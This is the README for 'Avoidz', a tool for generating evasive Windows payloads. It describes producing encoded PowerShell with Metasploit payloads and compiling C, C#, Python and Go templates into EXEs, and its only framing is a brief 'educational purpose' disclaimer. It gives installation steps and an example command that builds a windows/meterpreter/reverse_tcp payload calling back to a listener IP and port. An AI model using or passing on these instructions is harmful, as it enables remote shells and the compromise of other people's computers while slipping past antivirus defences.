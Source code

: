 ## Avoidz v 1.3 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C, C#, py, go Templates to EXE's 
 
## Screenshot:
<img src="http://i.imgur.com/sTeiZyE.png" width="49.99%"></img> <img src="http://i.imgur.com/I0lIBDl.png" width="49.99%"></img> 

<br /><br />

## Dependencies :
	1 - xterm
	2 - metasploit-framework
	3 - MinGW32
	4 - Monodevelop
	5 - Wine
	6 - Python.exe v 2.7
	7 - Golang

## Download/Config/Usage:
    1º - Download the tool from github
            git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permission
            cd avoidz
            chmod +x setup.sh

    3°- Run setup script
            sudo ./setup.sh == to check dependencies

    4°- Install rubygems:
           sudo gem install colorize
           sudo gem install artii
           sudo gem install optparse
           sudo gem install base64
    
    5°- Run avoidz tool == example
           ./avoidz.rb == help command
           ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f c1 == generate

## video tutorial: 
Avoidz v 1.0 old method : https://www.youtube.com/watch?v=ZilOByKkrVk
